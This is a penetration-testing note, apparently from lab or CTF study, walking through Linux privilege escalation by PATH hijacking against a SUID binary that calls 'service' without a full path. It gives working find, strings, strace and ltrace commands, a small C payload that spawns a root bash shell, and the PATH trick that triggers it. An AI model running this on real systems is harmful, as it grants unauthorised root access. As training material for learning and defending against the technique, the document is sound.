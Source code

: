 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

FINDING VULNERABLE PROGRAMS

The PATH environment variable contains a list of directories where the shell should try to find programs.

If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found.

Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string.

We can run strings on the executable file to find strings of characters.

We can also use strace to see how the program is executing. Another program called ltrace may also be of use.

Running strings against a file:
```bash - target
strings /path/to/file
```

Running strace against a command:

```bash - target
strace -v -f -e execve <command> 2>&1 | grep exec
```

Running e ltrace against a command:

```bash - target
ltrace <command>
```

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

-rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env

The suid-env file should execute with root user permissions.

2. Run strings on the SUID file:

```bash - target
strings /usr/local/bin/suid-env
```

/lib64/ld-linux-x86-64.so.2
service apache2 start

The file could be trying to run the service program without a full path.

3. We can verify this with strace:

```bash - target
strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
```

[pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],

4. Optionally, we can also verify with ltrace:

```bash - target
ltrace /usr/local/bin/suid-env 2>&1 | grep service
```

system("service apache2 start"

This reveals that the system function is being used to execute the service program.

5. Create a file service.c with the following contents:

==service.c==

---
```c - target

int main() {
 setuid(0);

 system("/bin/bash -p");
}
```
---

6. Compile service.c into a file called service:

```bash - target
gcc -o service service.c
```

7. Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:

```bash - target
PATH=.:$PATH /usr/local/bin/suid-env
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root) ...